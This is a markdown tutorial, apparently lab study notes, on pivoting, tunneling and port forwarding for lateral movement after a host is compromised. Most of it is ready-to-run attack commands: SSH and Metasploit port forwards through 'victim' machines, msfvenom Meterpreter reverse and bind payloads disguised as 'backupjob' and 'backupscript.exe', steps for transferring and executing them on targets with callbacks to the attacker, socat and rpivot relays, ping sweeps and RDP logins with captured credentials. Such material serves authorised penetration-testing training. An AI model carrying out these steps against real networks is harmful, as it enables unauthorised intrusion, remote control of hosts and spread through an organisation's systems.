

# Pivoting, Tunneling, and Port Forwarding

**Lateral movement** is a technique that adversaries use, after compromising an endpoint, to extend access to other hosts or applications in an organization.

**Pivoting**'s primary use is to defeat segmentation (both physically and virtually) to access an isolated network. `Tunneling`, on the other hand, is a subset of pivoting. Tunneling encapsulates network traffic into another protocol and routes traffic through it.

## Basic concepts

**IP Addressing & NICs**: Whether assigned `dynamically` or `statically`, the IP address is assigned to a `Network Interface Controller` (`NIC`).  Commonly, the NIC is referred to as a Network Interface Card or Network Adapter. A computer can have multiple NICs (physical and virtual), meaning it can have multiple IP addresses assigned, allowing it to communicate on various networks. 

Some adapters will have an IPv4 and an IPv6 address assigned in a [dual-stack configuration](https://www.cisco.com/c/dam/en_us/solutions/industries/docs/gov/IPV6at_a_glance_c45-625859.pdf) allowing resources to be reached over IPv4 or IPv6.

We will see public IPs on devices that are directly facing the Internet, commonly hosted in DMZs.

**Routing:** Technically any computer can become a router and participate in routing.  A router has a routing table that it uses to forward traffic based on the destination IP address. Sometimes we need to make a pivot host route traffic to another network. One way to do it is through the use of AutoRoute, which allows the attacker machine to have `routes` to target networks that are reachable through a pivot host.

Stand-alone appliances designated as routers typically will learn routes using a combination of static route creation, dynamic routing protocols, and directly connected interfaces. Any traffic destined for networks not present in the routing table will be sent to the `default route`, which can also be referred to as the default gateway or gateway of last resort.

## Footprinting

Check for additional NICs:

```bash
ifconfig
```


```powershell-session
ipconfig
```


Check out the routing table:

```shell-session
netstat -r

ip route
```


## Port forwarding

`Port forwarding` is a technique that allows us to redirect a communication request from one port to another. Port forwarding uses TCP as the primary communication layer to provide interactive communication for the forwarded port. However, different application layer protocols such as SSH or even [SOCKS](https://en.wikipedia.org/wiki/SOCKS) (non-application layer) can be used to encapsulate the forwarded traffic.

### Local port forwarding 

In this example we will use this tunneling as a way to access locally to a remote postgresql service: 

**1.** In the attacking machine:

```bash
ssh UserNameInVictimMachine@VictimKnownIp -L 1234:localhost:5432 
# We will listen for incoming connections on our local port 1234. When a client connects to our local port, the SSH client will forward the connection to the remote server on port 22. This allows the local client to access services on the remote server as if they were running on the local machine.
# We are forwarding traffic from any given local port, for instance 1234, to the port on which PostgreSQL is listening, namely 5432, on the remote server. We therefore specify port 1234 to the left of localhost, and 5432 to the right, indicating the target port.
```

**2.** In another terminal in the attacking machine:

```bash
sudo apt update && sudo apt install postgresql postgresql-client-common 
# this will install postgresql in case you don't have it.

psql -U christine -h localhost -p 1234
# Using our installation of psql, we can now interact with the PostgreSQL service running locally on the target machine:
# -U: to specify user.
# -h: to specify localhost. 
# -p 1234 as we are targeting the tunnel we created earlier with SSH, we need to specify which is the port the tunnel is listening on.
```


**3.** Confirming Port Forward with Netstat

```shell-session
netstat -antp | grep 1234
```


**4.** Confirming Port Forward with Nmap

```shell-session
nmap -v -sV -p1234 localhost
```


**Forward multiple ports**

```shell-session
ssh -L 1234:localhost:3306 -L 8080:localhost:80 usernameVictim@VictimKnownIp
```


#### metasploit with proxychains

```
# Modify the proxychains configuration file located at `/etc/proxychains.conf` or  `/etc/proxychains4.conf`. 
sudo nano /etc/proxychains4.conf

# Add `socks4 127.0.0.1 1234` to the last line  if it is not already there. 
# Ensure that strict_chain is not commented out;
# Dynamic_chain and random_chain should be commented out)
# At the very bottom of the file, under ProxyList, we specify the socks5 (or socks4 ) host and port that we used for our tunnel

# Check out /etc/proxychains4.conf
tail -4 /etc/proxychains4.conf
```

Now, run metasploit:

```shell-session
proxychains msfconsole
```

### Dynamic Port Forwarding

Unlike local port forwarding and remote port forwarding, which use a specific local and remote port (earlier we used 1234 and 5432, for instance), dynamic port forwarding uses a single local port and dynamically assigns remote ports for each connection.

#### SSH for port forwarding

**1.** **SSH command with the -D option**: To use dynamic port forwarding with SSH, you can use the ssh command with the -D option, followed by the local port, the remote host and port, and the remote SSH server. 

```bash
ssh UserNameInVictimMachine@VictimKnownIp -D 1234
# -D request the SSH server to enable dynamic port forwarding.
# -N tells SSH not to execute any commands remotely.
```

**2.** **Setting up proxychains**:  Now we will require a tool that can route any tool's packets over the port `1234`. We can do this using the tool `proxychains`, which is capable of redirecting TCP connections through TOR, SOCKS, and HTTP/HTTPS proxy servers. 

```
# Modify the proxychains configuration file located at `/etc/proxychains.conf` or  `/etc/proxychains4.conf`. 
sudo nano /etc/proxychains4.conf

# Add `socks4 127.0.0.1 1234` to the last line  if it is not already there. 
# Ensure that strict_chain is not commented out;
# Dynamic_chain and random_chain should be commented out)
# At the very bottom of the file, under ProxyList, we specify the socks5 (or socks4 ) host and port that we used for our tunnel

# Check out /etc/proxychains4.conf
tail -4 /etc/proxychains4.conf
```

##### Ping sweep: nmaps with proxychains

Once you complete the previous steps 1 and 2, you can use nmap with proxychains:

```shell-session
proxychains nmap -v -Pn -sT $NewDiscoveredIp
```

!!! tip
	One more important note to remember here is that we can only perform a `full TCP connect scan` over proxychains. The reason for this is that proxychains cannot understand partial packets.


##### Ping Sweep For Loop on Linux Pivot Hosts

```
ssh UserNameInVictimMachine@VictimKnownIp  
```

```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

##### Ping Sweep Using PowerShell


```
ssh UserNameInVictimMachine@VictimKnownIp  
```

```powershell-session
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

##### Ping Sweep For Loop Using CMD


```
ssh UserNameInVictimMachine@VictimKnownIp  
```

```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

##### RDP with proxychains

With proxychains you can use more services. For instance, xfreerdp:

Set the dynamic proxy using ssh portforwarding:

```shell-session
ssh UserNameInVictimMachine@VictimKnownIp -D 1234

# Scan the network interface cards in the connection
ip a
```

In the discovered  networks range, scan ips. Use proxychain with nmap:

```shell-session
proxychains nmap -v -Pn -sT $NewDiscoveredIp/23

# After that scan discovered IPs to find services. 
```

We have found $NewDiscoveredIp with open port 3389. We know the creds. So, with proxychain we can connect:

```shell-session
proxychains xfreerdp /v:$NewDiscoveredIp /u:$username /p:$password
```


#### Module `portfwd` in metasploit

Port forwarding can also be accomplished using Meterpreter's `portfwd` module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network


**1.** Create a payload for Ubuntu Pivot Host (our victim's machine 1):

```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ip -f elf -o backupjob LPORT=8080
```

**2.** Start a multi/handler, also known as a Generic Payload Handler.

```shell-session
msfconsole -q
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```

**3.** Copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.

```shell-session
# From kali, we copy the file
scp backupjob $username@$ip:~/

# Connect to the victim's machine
ssh $username@$ip
chmod +x backupjob 

# And execute it
./backupjob
```


**4.** Once the meterpreter Session is established, use Metasploit's post-exploitation `portfwd` module:

```
# List help
meterpreter> help portfwd

# Create Local TCP Relay: it requests the Meterpreter session to start a listener on our attack host's local port (`-l`) `3300` and forward all the packets to the remote (`-r`) Windows server $NewDiscoveredIp on `3389` port (`-p`) via our Meterpreter session
meterpreter > portfwd add -l 3300 -p 3389 -r $NewDiscoveredIp
```

**5.** Connect to victim's machine2 from the attacker machine:

```shell-session
xfreerdp /v:localhost:3300 /u:$username /p:$password

# use Netstat to view information about the session we recently established
netstat -antp
```


#### Module `ping_sweep` in metasploit

Module ping_sweep in metasploit allows us to perform a ping sweep from our meterpreter session to the new discovered subnet (reachable only from that session). 

**1.** Create a payload for Ubuntu Pivot Host (our victim's machine 1):

```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ip -f elf -o backupjob LPORT=8080
```

**2.** Start a multi/handler, also known as a Generic Payload Handler.

```shell-session
msfconsole -q
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```

**3.** Copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.

```shell-session
# From kali, we copy the file
scp backupjob $username@$ip:~/

# Connect to the victim's machine
ssh $username@$ip
chmod +x backupjob 

# And execute it
./backupjob
```


**4.** Once the meterpreter Session is established, do the ping sweep with the module ping_sweep:

```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=$newDiscoveredIPrange/23

# As a result we will see:
[*] Performing ping sweep for IP range $newDiscoveredIPrange/23
```

#### Module `Autoroute` in metasploit

Autoroute module allows you to set routes from a meterpreter session to a discovered subnet in the attacked machine. It allow us pivoting from one subnet to another.


**1.** Create a payload for Ubuntu Pivot Host (our victim's machine 1):

```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ip -f elf -o backupjob LPORT=8080
```

**2.** Start a multi/handler, also known as a Generic Payload Handler.

```shell-session
msfconsole -q
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```

**3.** Copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.

```shell-session
# From kali, we copy the file
scp backupjob $username@$ip:~/

# Connect to the victim's machine
ssh $username@$ip
chmod +x backupjob 

# And execute it
./backupjob
```


**4.** Once the meterpreter Session is established, use Metasploit's post-exploitation routing module `socks_proxy` to configure a local proxy on our attack host.

```shell-session
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 
set version 4a
run
# This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.

# This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.
jobs
```

**5.** Add a Line to proxychains.conf if needed.

```shell-session
socks4 	127.0.0.1 9050
# Note: Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.
```

**6.** Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. Use the post/multi/manage/autoroute module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

```shell-session
use post/multi/manage/autoroute
set SESSION 1
set SUBNET $NewSubnet
run
# this will bind session 1 to the $NewSubnet discovered in the victim's machine 1, doing the pivoting

# It is also possible to add routes with autoroute by running autoroute from the initial Meterpreter session (session 1):
run autoroute -s $NewDiscoveredIp/23

# List the active routes:
run autoroute -p
```

**7.**  Finally, use proxychains to route our Nmap traffic via our Meterpreter session.

```shell-session
proxychains nmap $NewDiscoveredIp -p3389 -sT -v -Pn
```


### Reverse Port Forwarding

For better understanding, we will have the following machines:

- Attacker machine: Kali, with IP 192.64.166.2
- 0.Victim's machine 1: Meta_3, a ubuntu machine with 2 networks interfaces: 192.64.166.3 and 192.182.147.2
- Victim's machine 2: Meta_2, a windows machine with nic 192.182.147.3


 
#### SSH Reverse Port Forwarding

**Goal**: From the kali we will make a RDP connection with Meta_2, the windows machine. 

For that we will use the Victim's machine 1 as a reverse port forwarding. 

```shell-session
# Syntax
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN

# Translated to our case:
ssh -R 192.182.147.2:8080:0.0.0.0:8000 ubuntu@192.64.166.3 -vN
# We are using port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port
```

##### Obtain a reverse shell

Now we need to create a payload that is going to be triggered in the Victim's machine 2 (the windows one).  First we create it in our kali:

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.182.147.2 -f exe -o backupscript.exe LPORT=8080
```

Now we move this malicious file to the victim's machine 2:

```
# First we copy it to the Ubuntu machine from our Kali
 scp backupscript.exe ubuntu@192.64.166.3:~/

# Then we connect to the Ubuntu machine
ssh ubuntu@192.64.166.3
# And make the file executable
chmod +x backupjob
# And there we start a http server to serve the copied file to the windows machine:
python3 -m http.server 8123

# We have access to the windows machine, so we download the malicious file via web browser or even this command:
Invoke-WebRequest -Uri "http://192.64.166.3:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Now, we start a listener in our kali:

```
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 8000
run
```

Now we  execute the payload from the Windows target.

We will receive the reverse shell.

#### Module `portfwd` in metasploit

Reverse  port forwarding can also be accomplished using Meterpreter's `portfwd` module,  where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host.

We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234` to our listener on port `8081`.

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 192.64.166.3
```

**1.** Configuring & Starting multi/handler

```shell-session
meterpreter > set payload windows/x64/meterpreter/reverse_tcp
set LPORT 8081 
set LHOST 0.0.0.0 
run
```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `192.182.147.2`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.182.147.2 -f exe -o backupscript.exe LPORT=1234
```

Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.

```shell-session
# #### Establishing the Meterpreter session
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 192.64.166.3
[*] Meterpreter session 2 opened (192.64.166.3:8081 -> 192.64.166.3:40173 ) at 2022-03-04 15:26:14 -0500

 
meterpreter > shell
```

## Socat 

### Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling.

It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.

Starting Socat Listener in our attacker machine:

```shell-session
# Socat will listen on localhost on port 8080 and forward all the traffic to port 80 on our attack host (192.64.166.3).
socat TCP4-LISTEN:8080,fork TCP4:192.64.166.3:80
# the fork option tells socat to create a new child process for each incoming connection.
```

Configuring & Starting the multi/handler. Starting a listener on our attacked host:

```shell-session
sudo msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 80
run
```

Create a windows payload

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.64.147.2 -f exe -o backupscript.exe LPORT=8080
```

Keep in mind that we must transfer this payload to the Windows host (192.182.147.3) and execute it to obtain the reverse shell.

### Socat Redirection with a Bind Shell

Attacker machine: 192.64.166.2
Attacked machine 1: 
	- 192.64.166.3: A listener in port 8080 that forwards all from 192.182.147.3:8443
	- 192.182.147.2: 
Attacked machine 2:
	- 192.182.147.3:  A listener in port 8443


**1.** Create a bind shell with the windows payload using msfvenom from our attacker machine:

```shell-session
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

**2.** Start a socat bind shell listener, which listens on port 8080 and forwards packets to Windows server 8443. **We do this from the attacked machine 1**.

```shell-session
socat TCP4-LISTEN:8080,fork TCP4:192.182.147.3:8443
```

**3.** Configuring & Starting the Bind multi/handler. **We do this from the attacked machine 1**.

```shell-session
msfconsole -q

use exploit/multi/handler
set RHOST 192.64.166.2
set LPORT 8080
run


[*] Started bind TCP handler against 192.64.166.2:8080
...
...
# Establishing Meterpreter Session
[*] Sending stage (200262 bytes) to 192.64.166.2
[*] Meterpreter session 1 opened (192.64.166.3:46253 -> 192.64.166.2:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor

```


## SSH for Windows: plink.exe

Plink, short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies


| NIC | Attacker machine: windows with putty | Attacked machine 2: ubuntu | Attacked machine 3: Windows |
| --- | ------------------------------------ | -------------------------- | --------------------------- |
| 1   | 10.10.10.2                           | 10.10.10.3                 |                             |
| 2   |                                      | 10.10.20.2                 | 10.10.20.3                  |

```cmd-session
plink -ssh -D 9050 ubuntu@10.10.10.3
```

Another Windows-based tool called [Proxifier](https://www.proxifier.com/) can be used to start a SOCKS tunnel via the SSH session we created. Proxifier is a Windows tool that creates a tunneled network for desktop client applications and allows it to operate through a SOCKS or HTTPS proxy and allows for proxy chaining. It is possible to create a profile where we can provide the configuration for our SOCKS server started by Plink on port 9050.

After configuring the SOCKS server for `127.0.0.1` and port 9050, we can directly start `mstsc.exe` to start an RDP session with a Windows target that allows RDP connections.

## SSH Pivoting with Sshuttle

| NIC | Attacker machine: kali | Attacked machine 2: ubuntu | Attacked machine 3: Windows |
| --- | ---------------------- | -------------------------- | --------------------------- |
| 1   | 10.10.10.2/24          | 10.10.10.3/24              |                             |
| 2   |                        | 10.10.20.2/24              | 10.10.20.3/24               |


Sshuttle is another tool written in Python which removes the need to configure proxychains. However, this tool only works for pivoting over SSH and does not provide other options for pivoting over TOR or HTTPS proxy servers.

`Sshuttle` can be extremely useful for automating the execution of iptables and adding pivot rules for the remote host. We can configure the Ubuntu server as a pivot point and route all of Nmap's network traffic with sshuttle:

**1.** Installing sshuttle

```shell-session
sudo apt-get install sshuttle
```

**2.** Running sshuttle

```shell-session
sudo sshuttle -r ubuntu@10.10.10.3 10.10.20.0/24 -v 
# With this command, sshuttle creates an entry in our iptables to redirect all traffic to the 172.16.5.0/23 network through the pivot host.
```

**3.** We can now use any tool directly without using proxychains.

```shell-session
nmap -v -sV -p3389 10.10.20.3 -A -Pn
```


## Web Server Pivoting with Rpivot

### Pivoting to access a web server on an internal network

[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.

| NIC | Attacker machine: kali | Attacked machine 1: ubuntu | Attacked machine 2: Windows |
| --- | ---------------------- | -------------------------- | --------------------------- |
| 1   | 10.10.10.2/24          |                            |                             |
| 2   |                        | 10.10.50.2/24              |                             |
| 3   |                        | 172.10.20.2/24             | 172.10.20.3/24              |
And an External Network at 10.10.40.0

We will take the scenario above, where we have a web server on our internal network (`172.10.20.135`), and we want to access that using the rpivot proxy.

**1.** Install rpivot in kali attacker machine:

```shell-session
git clone https://github.com/klsecservices/rpivot.git
```

**2.** Run server.py  with python2.7 from the kali attacker machine:

```shell-session
cd rpivot

python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

**3.** Transfer rpivot folder to the target, the attacked machine 1: ubuntu.

```shell-session
scp -r rpivot ubuntu@10.10.50.2:/home/ubuntu/
```

**4.** Run client.py from the pivot target (attacked machine 1: ubuntu):

```shell-session
~/rpivot$ python2.7 client.py --server-ip 10.10.10.2 --server-port 9999

# We will see a connection
New connection from host 10.10.50.2, source port 35226

```

**5.** Configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attacker machine, which was initially started by the Python server.

```
sudo nano /etc/proxychains4.conf
# Adding `socks5 127.0.0.1 9050` in the last line
```


**6.** Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.


```shell-session
proxychains firefox-esr 172.10.20.135:80
```


### Pivoting to access an external server (attack host) on the cloud

here could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way.

Client NTLM authentication example




**1.** Connect to a Web Server using HTTP-Proxy & NTLM Auth

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```


## Port Forwarding with Windows Netsh

[Netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts) is a Windows command-line tool that can help with the network configuration of a particular Windows system. Here are just some of the networking related tasks we can use `Netsh` for:

- `Finding routes`
- `Viewing the firewall configuration`
- `Adding proxies`
- `Creating port forwarding rules`

We can use `netsh.exe` to forward all data received on a specific port (say 8080) to a remote host on a remote port. 

This can be performed entering in the Windows machine (Windows-based pivot host) and using the below command.

```cmd-session
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=$IpInterface1 connectport=3389 connectaddress=$IpInterface2
```

Now we can connect to the 8080 port of the Windows machine (Windows-based pivot host) from our kali attacking machine using xfreerdp:

```
xfreerdp /v:$IpInterface1:8080 /u:$username /p:$password
```
